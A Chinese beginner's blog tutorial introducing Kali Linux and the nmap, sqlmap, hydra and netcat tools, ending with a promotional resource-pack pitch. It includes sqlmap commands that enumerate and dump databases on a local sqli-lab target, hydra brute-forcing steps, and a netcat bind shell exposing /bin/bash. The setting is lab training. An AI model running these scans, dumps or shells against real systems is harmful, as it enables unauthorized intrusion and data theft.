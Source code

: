 
--- 
title:  kali linux入门及常用简单工具介绍 
tags: []
categories: [] 

---
### 前言

相信很多同学了解到和学习网络安全的时候都听过kali系统，大家都称之为黑客最喜爱的系统，那么什么是kali，初学者用kali能做些什么，我将在本文中做简单的介绍

### 一、kali linux是什么？

Kali Linux 是专门用于渗透测试的Linux操作系统，它由BackTrack发展而来。在整合了IWHAX、WHOPPIX和Auditor这三种渗透测试专用Live Linux后,BackTrack正式改名为Kali LInux。没错，kali的本质也是linux系统，就好比以前的黑客经常使用一些工具，久而久之的大家就共同开源了一个集成了各种黑客工具系统。至于为什么黑客都喜欢使用kali，主要是在kali中工具齐全避免了在需要使用的时候发现工具需要再下载安装的麻烦

<img src="https://img-blog.csdnimg.cn/img_convert/efe1bb4b705faf6fb9bcc25aed7b56ac.png" alt="">

### 二、安装下载kali

kali的官网地址：https://www.kali.org

目前kali仍然在保持着更新，目前最新的kali系统为kali purple，里面继承了更多的防守方使用的工具。

下载解压后用vm打开即可，默认root账号密码均为kali，kali。没有用过VMware的同学可以先到网上学习如何下载vm。另外新手可能会遇到虚拟机没有网络的问题，新手我这里推荐配置网卡时选择直接连接，等之后了解到网卡网段的知识可以再自己配置想要的网卡信息。（左上角虚拟机，设置，网络适配器，桥接模式，复制物理网络连接状态）

#### 三、kali常见工具介绍

<img src="https://img-blog.csdnimg.cn/img_convert/844e6229bc202ec7cf00da59db61f003.png" alt="">

正如刚才所说，kali里集成了大量的黑客工具和网络安全相关工具，可以说黑客需要做的所有事情在这个系统中都有工具可以实现。下面我推荐几个新手入门可以用到的小工具。

##### 1.nmap

nmap被称为诸神之眼，是一款非常强大的网络探测工具，可以实现主机发现和端口扫描，同时自身也可带漏洞扫描的脚本可以完成对主机端口的漏洞扫描

nmap最基础用法：

```
nmap [目的ip]
nmap 192.168.1.10

nmap [目的网段]
nmap 192.168.1.0/24

```

<img src="https://img-blog.csdnimg.cn/img_convert/6616d44eec760ff92933ec3513ace722.png" alt="">

map也提供了大量的扫描时候可以设置的参数，下面将举例常用的参数：

<img src="https://img-blog.csdnimg.cn/img_convert/468763a07a5dfe3965ef80b70ee38425.png" alt="">

<img src="https://img-blog.csdnimg.cn/img_convert/45823607fb728b7c2c1de1be607fb7c1.png" alt="">

添加参数可以显示出不同的扫描结果

##### 2.sqlmap

sqlmap是针对sql注入漏洞的一款自动化sql注入探测工具，支持多种操作系统环境和多种数据库的漏洞探测，渗透测试人员常常调侃“没有什么操作技术，就是sqlmap一把梭哈，屏幕显示绿了就直接下班”

sqlmap的基本使用:

```
sqlmap -u "www.baidu.com"

```

大家尽量不要在未授权的情况下去对公网资产进行批量扫描，小心去踩缝纫机哦

下面我以sqli-lab里面的靶场为例：

<img src="https://img-blog.csdnimg.cn/img_convert/28d316af86c8f42a4f156c629cb5d933.png" alt="">

出现图中绿色信息说明sqlmap对该参数成功注入，注意我的url中在最后以GET方式输入了参数id（/?id），如果不给sqlmap提供参数sqlmap是无法使用的哦

找到注入点后的步骤基本是确定的

```
 sqlmap -u "http://192.168.0.107/sqli/Less-1/?id=1"  --dbs  #获取当前数据库服务所开启的数据库名称
 sqlmap -u "http://192.168.0.107/sqli/Less-1/?id=1"  -D 数据库名 --tables  #获取某数据库下的所有表名
 sqlmap -u "http://192.168.0.107/sqli/Less-1/?id=1"  -D 数据库名 -T 表名 --columns #获取D数据库下T表内的所有字段
sqlmap -u "http://192.168.0.107/sqli/Less-1/?id=1"  -D 数据库名 -T 表名 -C 字段名 --dump  #将该字段的内容全部获取出来并存储，在最后的信息中会有存储路径信息

```

第一步获取数据库：

<img src="https://img-blog.csdnimg.cn/img_convert/9492c03ece2274b0829d42fb200f40ee.png" alt="">

第二步获取数据库下表名：

<img src="https://img-blog.csdnimg.cn/img_convert/79477d2e7a57fe998c30fcfd26215ed2.png" alt="">

第三步获取该表字段（其实到表名这一步可以直接–dump获取表里所有内容）

<img src="https://img-blog.csdnimg.cn/img_convert/1c78aebb2beedc758663cc5f6f4ecbee.png" alt="">

所以sqlmap的使用难处在于如何找到注入点，也就是找到产生sql注入的参数，在例子里参数是GET方式上传的“id”参数，下面提供一些sqlmap常用的参数

<img src="https://img-blog.csdnimg.cn/img_convert/dfed6738fc16bcd882966424685e133b.png" alt="">

##### 3.hydra

hydra又称九头蛇，是一款非常高效的多种协议都可以使用的爆破工具，对指定ip的指定服务进行爆破，需要输入爆破使用的字典或者自己指定爆破使用的数据（比如在已知账号为admin时爆破密码）

在kali中hydra有图形化和命令行两种使用方式

<img src="https://img-blog.csdnimg.cn/img_convert/204f7b6165fc20c9a2757432cfa6c52f.png" alt="">

对于新手来说，图形化界面更加简易好用，下面介绍图形化使用

<img src="https://img-blog.csdnimg.cn/img_convert/f6dd03dd2a552bbbeba047aebcd0cfda.png" alt="">

<img src="https://img-blog.csdnimg.cn/img_convert/ca697f6da5bbfebc86c47acd0fb0acca.png" alt="">

之后选择start就好了，hydra会使用字典中的所有账号密码去做登陆的爆破尝试

##### 4.netcat

netcat简称nc，是一款目前最常用网络工具，它提供基于socket协议套接字针对TCP，UDP连接的网络使用，在具有nc使用权时几乎可以建立任何类型的连接，通常在渗透测试中用该工具获得目的ip的shell

nc简单使用方式：建立连接传输信息

主机1：开启对6666端口的监听

```
nc -lvp 6666

```

参数解释：

<img src="https://img-blog.csdnimg.cn/img_convert/07bae59f11f8457034440aee8e0ac921.png" alt="">

主机2：连接主机1的6666端口

```
nc 192.168.0.163 6666

```

<img src="https://img-blog.csdnimg.cn/img_convert/665cf367bbd4a0f795300339d67db8cb.png" alt="">

nc常用使用：获取远程主机shell

1.正向连接shell

主机1：

```
nc -lvp 6666 -e /bin/bash

```

参数解释：

<img src="https://img-blog.csdnimg.cn/img_convert/8268e8f08ccd106672fe5714f2e7b25c.png" alt="">

这里将主机1的/bin/bash重定向到了自己主机的6666端口

主机2：

```
nc 192.168.0.163 6666

```

<img src="https://img-blog.csdnimg.cn/img_convert/4707740a23efb159eb97920c5bd59561.png" alt="">

大家可以思考一下为什么左边会有下面的报错呢？并且在执行sudo su尝试进入root权限时，必须在左侧主机输入密码才可以进入，进入后才会收到来自右侧发来的密码kali并且产生报错。可以尝试了解不同终端bash/zsh/sh的区别

### 总结

本文简单介绍了kali系统，只是适合对没有了解过的新手小白的一个引导

### 网络安全学习资源分享:

**给大家分享一份全套的网络安全学习资料，给那些想学习 网络安全的小伙伴们一点帮助！**

对于从来没有接触过网络安全的同学，我们帮你准备了详细的学习成长路线图。可以说是最科学最系统的学习路线，大家跟着这个大的方向学习准没问题。

因篇幅有限，仅展示部分资料，朋友们如果有需要<mark>全套《**网络安全入门+进阶学习资源包**》</mark>，需要<mark>点击下方链接</mark>即可前往获取

`**读者福利 |** ` **** `**（安全链接，放心点击）**`

<img src="https://img-blog.csdnimg.cn/img_convert/db6d58f21b2b30801b6a24fbe7ba9c39.png#pic_center" alt="图片">

同时每个成长路线对应的板块都有配套的视频提供：

<img src="https://img-blog.csdnimg.cn/img_convert/96faf31d16ee5429d8c3b04ecd85f477.jpeg#pic_center" alt="图片">

### 实战训练营

<img src="https://img-blog.csdnimg.cn/8f5cfdeb776b43048053db65a56e28a4.png#pic_center" alt="在这里插入图片描述">

### 面试刷题

<img src="https://img-blog.csdnimg.cn/194061b77023455eb8b1c75d1084191f.png#pic_center" alt="在这里插入图片描述">

**视频配套资料&amp;国内外网安书籍、文档**

当然除了有配套的视频，同时也为大家整理了各种文档和书籍资料

<img src="https://img-blog.csdnimg.cn/img_convert/8be1afdcca061c7e2987f41619464228.png#pic_center" alt="图片"> **所有资料共282G，朋友们如果有需要全套《网络安全入门+进阶学习资源包》，可以扫描下方二维码或链接免费领取~**

`**读者福利 |** ` **** `**（安全链接，放心点击）**`
